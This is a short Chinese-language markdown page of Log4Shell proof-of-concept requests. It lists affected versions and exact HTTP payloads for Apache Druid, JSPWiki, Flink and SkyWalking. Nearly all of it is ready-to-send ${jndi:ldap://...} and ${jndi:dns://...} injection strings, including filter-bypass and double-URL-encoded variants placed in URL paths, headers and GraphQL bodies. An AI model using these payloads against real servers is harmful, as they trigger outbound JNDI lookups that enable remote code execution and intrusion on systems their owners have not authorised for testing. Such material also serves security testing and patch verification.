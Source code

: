 #### Apache-druid

**log4j影响**

* 影响版本
*   POC

    ```
    http://0.0.0.0:8888/druid/coordinator/${jndi:ldap://0.0.0.0/123}
    http://0.0.0.0:8888/druid/indexer/${jndi:ldap://0.0.0.0/123}
    http://0.0.0.0:8888/druid/v2/${jndi:ldap://0.0.0.0/123}
    ```

#### Apache-JSPWiki

**log4j影响**

* 影响版本
  * JSPWiki = V2.11.0
*   POC 有过滤，需要使用绕过语句触发

    ```
    http://0.0.0.0:8080/wiki/$%7Bjndi:ldap:$%7B::-/%7D/0.0.0.0/123%7D

    http://0.0.0.0:8080/Edit.jsp?page=Main
    X-Forwarded-For:${jndi:dns://0.0.0.0/123}
    ```

#### Apache-Filnk

**log4j影响**

* 影响版本
  * 四个系列：< v1.14.2, < v1.13.5, < v1.12.7, < v1.11.6
*   POC

    ```bash
    GET: http://0.0.0.0:8081/jars/11.jar/plan?entry-class=1¶llelism=1${jndi:dns://0.0.0.0/123}&program-args=1

    #url双编码绕过//
    POST: http://0.0.0.0:8081/jars/${jndi:ldap:%252f%252f0.0.0.0%252f123}.jar/run
    ```

#### Apache-SkyWalking

**log4j影响**

* 影响版本
  * SkyWalking < v8.9.1
*   POC

    ```
    POST: http://0.0.0.0:8080/graphql
    data: {"query":"${jndi:dns://0.0.0.0/123}","variables":{"duration":{"start":"2021-12-22 1259","end":"2021-12-22 1314","step":"MINUTE"}}}
    ```
